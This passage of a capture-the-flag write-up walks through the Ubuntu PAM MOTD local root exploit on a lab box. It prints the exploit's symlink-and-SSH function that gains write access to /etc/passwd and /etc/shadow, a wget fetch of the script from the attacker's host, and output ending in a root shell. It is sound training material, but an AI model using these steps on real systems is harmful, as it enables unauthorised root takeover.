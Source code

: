     own() {
        [ -e ~/.cache ] && rm -rf ~/.cache
        ln -s "$1" ~/.cache || return 1
        echo "[*] spawn ssh"
        ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
        [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
        echo "[+] owned: $1"
    }
    

If `~/.cache` exists, it removes it. Then it creates the link to the file to
target, which from the main body is first `/etc/passwd`, and then
`/etc/shadow`. Then it runs SSH to connect to the box to run the `true`
command and then disconnect. It verifies that it now has write permissions on
the file.

So in each of the calls to `own`, it gets write access, and then adds a line,
thus adding the user toor as a root user, just like I did manually.

Then it restores `.cache`, and cleans up the SSH key that was added.

Finally, it calls `su -c` with a long command to run as root for the user
toor. When I enter that password, toor, it runs the command:

  * remove the line for the toor user from both `/etc/passwd` and `/etc/shadow`;
  * change the owner for both of those files to root;
  * change the group of `/etc/shadow` to shadow;
  * `nscd` is the caching daemon for name services, including `passwd`, and this [invalidates the cache](https://linux.die.net/man/8/nscd);
  * runs `bash` to give a shell.

Basically it cleans up after itself, and then launches a shell.

#### Run

I gave the box a reset, re-uploaded a webshell, got a shell, with pty. Then I
uploaded the script using a Python webserver (`python3 -m http.server 80`) and
`wget`:

    
    
    www-data@popcorn:/dev/shm$ wget 10.10.14.14/pam_motd.sh
    --2020-06-21 22:28:38--  http://10.10.14.14/pam_motd.sh
    Connecting to 10.10.14.14:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3043 (3.0K) [text/x-sh]
    Saving to: `pam_motd.sh'
    
    100%[======================================>] 3,043       --.-K/s   in 0.004s  
    
    2020-06-21 22:28:38 (761 KB/s) - `pam_motd.sh' saved [3043/3043]
    

The script runs and returns a root shell:

    
    
    www-data@popcorn:/dev/shm$ bash pam_motd.sh 
    [*] Ubuntu PAM MOTD local root
    [*] SSH key set up
    [*] spawn ssh
    [+] owned: /etc/passwd
    [*] spawn ssh
    [+] owned: /etc/shadow
    [*] SSH key removed
    [+] Success! Use password toor to get root
    Password: 
    root@popcorn:/dev/shm#
    